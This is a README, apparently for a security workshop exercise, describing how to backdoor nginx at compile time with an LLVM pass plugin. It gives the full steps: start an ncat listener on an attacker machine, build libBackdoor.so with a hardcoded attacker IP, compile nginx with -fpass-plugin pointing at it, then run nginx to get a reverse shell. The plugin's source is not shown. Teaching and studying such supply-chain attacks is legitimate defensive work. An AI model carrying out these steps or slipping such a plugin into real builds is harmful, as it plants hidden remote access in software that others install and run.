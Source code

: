 # BlackHoodie_Compilers

Project builds with LLVM v21 and cmake 3.28.3 (minimum)
Building LLVM from scratch: https://llvm.org/docs/GettingStarted.html#getting-the-source-code-and-building-llvm
![image](https://github.com/user-attachments/assets/666db4a3-d5cf-46c7-99ce-248cd8cd85f4)


Exercise Flow:

Attacker machine:
sudo apt update
sudo apt install ncat
ncat -lvp 8080

Target machine:
In examples/inject folder:
Edit IP address in Backdoor.cpp to match attacker IP addres, yes it is hardcoded
mkdir build
cd build 
cmake -S ../ -B .; make
Find libBackdoor.so in lib directory!

sudo cp ../inject/build/lib/libBackdoor.so /usr/local/lib

Change into examples/nginx folder
run:
./auto/configure --with-cc=clang --with-cc-opt=-fpass-plugin=/usr/local/lib/libBackdoor.so --prefix=/home/ubuntu/examples/nginx/build

make
make install 
locate nginx binary 
sudo nginx

Enjoy shell on attacker machine!
